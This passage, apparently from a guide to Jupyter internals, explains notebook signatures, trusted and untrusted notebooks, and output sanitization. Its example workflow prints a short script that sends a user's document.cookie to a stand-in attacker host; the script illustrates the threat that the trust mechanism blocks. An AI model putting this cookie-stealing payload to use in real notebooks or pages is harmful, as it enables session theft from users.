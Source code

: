 
### **12. What Happens if You Download a Notebook?**

If you download a notebook (`example_notebook.ipynb`) created by someone else:
1. The notebook will have a signature stored in its metadata, but it was computed on their system using their secret key.
2. When you open the notebook in your local Jupyter environment, the application will:
   - Recompute the hash of the notebook content using your local setup.
   - Check if the computed hash matches the stored signature.
3. Since the hash was computed with a different key, the notebook will be marked **untrusted**.

Untrusted notebooks sanitize all outputs (e.g., JavaScript, HTML) until you explicitly trust them.

---

### **13. Why Does Jupyter Do This?**

This system ensures:
1. **Security:** It prevents malicious outputs from executing automatically when you open a notebook.
2. **Trust Ownership:** Only the user who generated the notebook outputs can mark it as trusted.
3. **Tamper Detection:** If someone alters the notebook after you save it (e.g., injecting malicious code), the hash will no longer match, and Jupyter will mark the notebook as untrusted.

---

### **14. Example Workflow with Downloaded Notebook**

1. You download `malicious_notebook.ipynb` from an external source.
2. The notebook contains the following malicious HTML in one of its outputs:
   ```html
   <script>
       fetch("https://attacker.com/steal", { method: "POST", body: document.cookie });
   </script>
   ```
3. When you open the notebook, Jupyter:
   - Finds a cryptographic signature in the metadata.
   - Recomputes the hash using your key.
   - Sees that the signature does not match and marks the notebook as untrusted.
4. The output is sanitized, and you see:
   ```
   [Output not displayed: Untrusted]
   ```
5. If you explicitly trust the notebook:
   - Jupyter overwrites the signature in the metadata using your local secret key.
   - The malicious code is executed (so you must exercise caution).

---

# Typical Workflow
To see how the above channels play together, let’s review the code execution workflow.

## Start the kernel
